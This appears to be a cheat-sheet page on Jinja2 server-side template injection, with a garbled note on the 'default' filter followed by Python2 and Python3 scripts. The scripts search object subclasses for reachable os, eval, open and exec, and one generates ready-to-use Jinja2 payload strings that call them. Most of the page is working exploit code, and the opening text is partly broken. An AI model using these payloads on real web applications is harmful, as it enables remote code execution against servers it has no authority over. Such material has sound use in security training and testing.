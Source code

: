```python
default(value,default_value,boolean=false): If the current variable has no value, the value in the parameter will be used instead. Example: name|default('xiaotuo')---If name does not exist, Xiaotuo will be used instead. boolean=False By default, the value in default will be used only when this variable is undefined. If you want to use pytho
The form of n determines whether it is false, then you can pass boolean=true, or you can use or to replace it
```

## Module search script
- Python2

```python
num = 0
for item in ''.__class__.__mro__[-1].__subclasses__():
    try:
        if 'os' in item.__init__.__globals__:
            print num,item
        num+=1
    except:
        num+=1
```

- Python3

```python
#!/usr/bin/python3
# coding=utf-8
#python 3.5
#jinja2 template
from flask import Flask
from jinja2 import Template
# Some of special names
searchList = ['__init__', "__new__", '__del__', '__repr__', '__str__', '__bytes__', '__format__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__hash__', '__bool__', '__getattr__', '__getattr__', '__getattribute__', '__dir__', '__delattr__', '__delattr__', '__get__', '__set__', '__set__', '__dir__', '__delattr__', '__get__', '__set__', '__delete__', '__call__', "__instancecheck__", '__subclasscheck__', '__len__', '__length_hint__', '__missing__','__getitem__', '__setitem__', '__iter__','__delitem__', '__reversed__', '__contains__', '__add__', '__sub__', '__mul__']
neededFunction = ['eval', 'open', 'exec']
pay = int(input("Payload?[1|0]"))
for index, i in enumerate({}.__class__.__base__.__subclasses__()):
    for attr in searchList:
        if hasattr(i, attr):
            if eval('str(i.'+attr+')[1:9]') == 'function':
                for goal in neededFunction:
                    if (eval('"'+goal+'" in i.'+attr+'.__globals__["__builtins__"].keys()')):
                        if pay != 1:
                            print(i.__name__,":", attr, goal)
                        else:
                            print("{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='" + i.__name__ + "' %}{{ c." + attr + ".__globals__['__builtins__']." + goal + "(\"[evil]\") }}{% endif %}{% endfor %}")
```
